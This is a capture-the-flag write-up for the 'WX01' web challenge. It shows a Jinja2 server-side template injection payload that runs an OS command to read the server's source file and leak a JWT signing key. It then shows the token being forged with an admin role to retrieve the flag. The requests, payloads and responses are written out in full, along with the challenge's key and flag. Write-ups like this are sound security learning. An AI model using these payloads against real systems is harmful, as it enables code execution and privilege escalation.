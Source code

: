 # WX01
## BRIEFING
Access the url at: https://cfta-wx01.allyourbases.co and find a way to login to the admin portal to get the flag.

Note: You have been provided with the following credentials to help you:

username: `tim`

password: `berners-lee`

## Solution

I did not figure this one out during the competition. I was familiar with JWT tokens but the part that eluded me was determining the JWT key. Trying to brute force it did not work and I later found out why.

We had to extract the key through an SSTI injection via the `Help` box on the main page of the site. If we entered the following inject into the `email` field we could pull the key:

```console
POST /stag/wx01 HTTP/1.1
Host: 6feducn4d2.execute-api.eu-west-1.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 120
Origin: https://cfta-wx01.allyourbases.co
Connection: close
Referer: https://cfta-wx01.allyourbases.co/

{
  "action":"help",
  "email":"{{globals().__builtins__.__import__('os').popen('cat /var/task/lambda_function.py').read()}}"
}
```

This yielded:

```console
{"statusCode": 200, "body": "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: from jinja2 import Template\nimport json\nimport urllib\nimport jwt\nimport os\n\n# JWT Key\nkey = \"aversion-chute-freeway-corporal\"\nalgo = \"HS256\"\n\ndef getHelp(event):\n    email = ''.join(event['email'])\n    template = \"\"\"\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: %s</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    \"\"\" % (urllib.parse.unquote(email).replace(\"<\", \"&lt;\").replace(\">\", \"&gt;\"))\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n    msg = msg[:-len(msg)+700]\n    return msg\n\ndef login(event)"}
```

After getting the key (`aversion-chute-freeway-corporal`), we had to spoof the JWT token produced when logging in via the provided credentials of `tim` and `berners-lee`:

```console
{"action":"verify","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJ1c2VyIn0.j8wX114OSLEo2I4S6GQ4wQ4ZszXtyp0wFc0lpwc1yRQ"}
```

Initally we get:

```console
{"statusCode": 200, "body": "Insufficient Privileges"}
```

After spoofing via [jwt.io](jwt.io) (and chaning the `role` field to `admin` we get a new token:

```console
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRpbSIsInJvbGUiOiJhZG1pbiJ9.S9-09o2b55F1WD2Fgyam6R-aL_CM93EaetWVIDB9-ks
```

Sending it yields:
```console
{"statusCode": 200, "body": "muLtiStagingIT710-12"}
```

The flag is **muLtiStagingIT710-12**.



